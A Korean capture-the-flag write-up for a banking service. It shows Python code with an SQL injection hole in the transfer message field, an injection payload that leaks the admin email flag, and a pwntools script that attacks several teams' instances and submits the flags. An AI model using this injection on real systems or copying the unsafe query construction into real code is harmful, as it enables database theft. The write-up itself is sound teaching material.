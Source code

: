# Service 1. Bank

## Vulnerability and Attack Vector

Service 1은 은행 업무 서비스를 제공하고 있다.
은행 서비스 중 본인 계좌의 금액을 송금하는 transfer 기능에서 SQL Injection이 가능하였고,
이를 이용하여 DB에 저장된 flag의 값을 조회하는 SQL 쿼리를 삽입할 수 있었다.
삽입된 쿼리의 결과는 transaction history 기능에서 지난 송금 기록을 조회할 때
볼 수 있어 flag 값을 사용자에게 노출하게 된다.

```python
def store_transaction(self, user_id, user_acc, receiver_id, receiver_acc, amount, msg):
    # ...
    sql = "INSERT INTO `tran_table` " \
          "(`from_account`, `to_account`, `remit`, `msg`, " \
          " `from_balance`, `to_balance`) " \
          "VALUES(%s, %s, %s, concat ('[Transfer] ', '%s'), %s, %s)"

    if not self.update_balance(user_id, -amount):
        raise
    if not self.update_balance(receiver_id, amount):
        raise

    # AFTER update_balance
    from_bal = self.get_balance(user_id)
    to_bal = self.get_balance(receiver_id)

    cursor.execute(sql % (user_acc, receiver_acc, amount, msg, from_bal, to_bal))
    conn.commit()
```

위의 코드는 금액을 송금할 때 실행되는 SQL 쿼리이다.
그중 msg 값은 사용자가 임의로 입력할 수 있는 문자열 내용이며,
쿼리 실행시 이 값에 대한 올바른 검증이 이루어지지 않는다.
이러한 취약점을 이용하여 아래와 같은 SQL 공격 구문 삽입이 가능하다.
공격 구문은 아래 그림과 같이 원래 SQL 쿼리에 있던 concat 함수를 활용하였다.

![exploit\_bank1](img/bank_1.png)

Transfer 기능에서 실행된 SQL Injection 구문은
Check transaction history 페이지에서 확인 가능하다.
Message 구문을 출력하려고 할 때, 삽입된 구문에 의해서 DB에 저장된 flag 값
(user\_table에 있는 admin의 eamil 값)을 가져올 수 있다.

![exploit\_bank2](img/bank_2.png)

*(첨부된 그림 파일들은 write-up을 위해 재현된 내용으로
Flag 값에 "thisisflag"란 값을 입력한 후 진행되었다.)*

## Exploit

```python
import os
import re
import time

import requests
from pwn import *


def ex(team):
    r = remote('localhost', 8001 + team * 10)

    def ans(s):
        d = r.recvuntil(' -> ')
        r.sendline(s)
        return d

    # Log in
    ans('1')
    ans('team5')
    ans('5team')

    # Transfer
    ans('3')
    ans('admin')
    ans('1')
    ans("',(select email from user_table limit 1),'")
    r.recvuntil('(Y/N)')
    r.sendline('Y')
    ans('')

    # Check transfer history
    ans('2')
    d = r.recvuntil('previous menu')
    d = re.findall('\[Transfer\] (\w+) \|', d)
    flag = d[0]
    return flag

for i in (1,2,3,4,6):
    try:
        flag = ex(i)
        os.system('python submit.py %d 1 %s' % (i, flag))
    except:
        pass
```
